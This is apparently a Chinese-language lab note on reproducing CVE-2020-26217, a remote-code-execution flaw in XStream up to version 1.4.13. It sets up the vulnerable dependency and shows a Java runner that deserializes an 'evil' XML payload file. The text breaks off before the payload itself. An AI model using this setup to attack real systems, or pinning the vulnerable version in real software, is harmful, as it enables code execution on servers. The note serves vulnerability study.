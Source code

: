 # 相关漏洞

## RCE

### CVE-2020-26217

####  漏洞描述

- RCE

- 影响范围

```
<=1.4.13
```



####  漏洞复现

##### 环境搭建

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
<dependency>
  <groupId>com.thoughtworks.xstream</groupId>
  <artifactId>xstream</artifactId>
  <version>1.4.13</version>
</dependency>
```

PayloadRunner.java

```java
import com.thoughtworks.xstream.XStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class PayloadRunner {
    public static void main(String[] args) throws FileNotFoundException {
        String basePath = "F:\\Java_Sec\\java\\java_vuln\\src\\main\\java\\Deserialization\\XStream\\payloads\\";
        XStream xstream = new XStream();
        FileInputStream evilXml = new FileInputStream(basePath + "CVE-2020-26217-RCE.xml");
        xstream.fromXML(evilXml);
    }
}
```

##### 漏洞验证

CVE-2020-26217-RCE.xml
